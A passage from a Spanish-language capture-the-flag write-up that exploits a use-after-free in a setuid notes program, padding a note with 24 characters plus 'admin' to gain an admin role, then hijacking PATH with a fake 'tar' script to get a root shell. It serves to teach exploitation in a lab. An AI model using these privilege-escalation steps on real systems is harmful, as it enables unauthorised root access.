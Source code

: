 ```bash

Your choice: 2


Username: ASDASDSADASD
Role: 

```

No sabemos cuantos carácteres tenemos que escribir para llegar a sobrescribir el role, pero probando a adivinar podemos ver que son 24.

```bash
Your choice: 4

Write your note:
AAAAAAAAAAAAAAAAAAAAAAAAadmin
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 2


Username: AAAAAAAAAAAAAAAAAAAAAAAAadmin
Role: admin
```

Ahora solamente debemos crearnos un script que "disimule" ser el binario de `tar` y agregar su ruta al inicio de PATH, luego ejecutamos el binario, explotamos el UAF para darnos admin y hacer un backup que ejecutará el script `tar`.

```bash
tbuckley@gofer:/tmp$ cat tar
#!/bin/bash

bash
tbuckley@gofer:/tmp$ chmod +x tar
tbuckley@gofer:/tmp$ export PATH=/tmp:$PATH
tbuckley@gofer:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Al hacer esto, obtendremos una consola como root y ya podremos tomar la última flag.

